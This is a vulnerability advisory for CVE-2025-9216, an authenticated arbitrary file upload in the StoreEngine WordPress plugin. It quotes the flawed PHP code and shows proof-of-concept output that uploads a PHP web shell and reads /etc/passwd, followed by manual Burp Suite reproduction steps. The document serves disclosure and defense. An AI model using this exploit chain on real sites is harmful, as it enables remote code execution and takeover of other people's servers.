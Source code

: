 +++
title = 'StoreEngine – Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Upload'
date = 2025-09-16T00:01:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "StoreEngine"]
+++
### CVE-2025-9216

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in it's CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to upload arbitrary files and gain remote code execution. The vulnerability stems from two security flaws: (1) the CSV import endpoint lacks proper file validation checks, permission checks, and only relies on nonce verification for security, and (2) the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This combination allows any authenticated user to extract the nonce from frontend pages and use it to upload PHP web shells via the `storeengine_csv/import` endpoint, effectively granting subscriber+ users the ability to execute arbitrary code on the server.

## TL;DR Exploits
* A POC [CVE-2025-9216.py](https://github.com/d0n601/CVE-2025-9216/blob/master/CVE-2025-9216.py) is provided to demonstrate an administrator uploading a web shell named `omg.php`.
  
```console
python3 ./CVE-2025-9216.py http://localhost:1337 user1 password
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: ff15beb1bd
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
Uploading web shell: omg.php
File upload response: {"success":true,"data":{"filename":"omg.php"}}

Web Shell At: http://localhost:1337/wp-content/uploads/storeengine_uploads/csv/omg.php

Executing test command: cat /etc/passwd
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

```

## Details  

### **Vulnerable File Upload Function**
The `storeengine_csv/import` AJAX action calls the `import()` function on line [51](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/import.php#L51) of `/wp-content/plugins/storeengine/addons/csv/ajax/import.php`, which lacks proper permission checks and file type validation:

```php
public function import() {
    if ( ! isset( $_FILES['file'] ) ) {
        wp_send_json_error( 'No file uploaded.' );
    }

    $file   = $_FILES['file'];
    $folder = Helper::get_upload_dir() . '/csv/';

    if ( ! file_exists( $folder ) ) {
        wp_mkdir_p( $folder );
    }

    $filename = sanitize_file_name( $file['name'] );
    $target   = trailingslashit( $folder ) . $filename;

    if ( ! move_uploaded_file( $file['tmp_name'], $target ) ) {
        wp_send_json_error( 'Failed to move uploaded file.' );
    }

    wp_send_json_success( [
        'filename' => $filename,
    ] );
}
```

The function only uses `sanitize_file_name()` to clean the filename but does not perform any file type validation or capability checks. This allows uploading any file type, including PHP files that can be executed by the web server.

### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```


This combination allows any authenticated user to upload arbitrary files, including PHP web shells for remote code execution.



## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Import section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Attempt to upload a file and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/import` action.
5. Modify the request to include an arbitrary file, in the example below we're uploading a PHP web shell.
6. Send the request and receive `{"success":true,"data":{"filename":"shell.php"}}`.
7. Browse the web shell at `https://example.com/wp-content/uploads/storeengine_uploads/csv/shell.php` and execute code.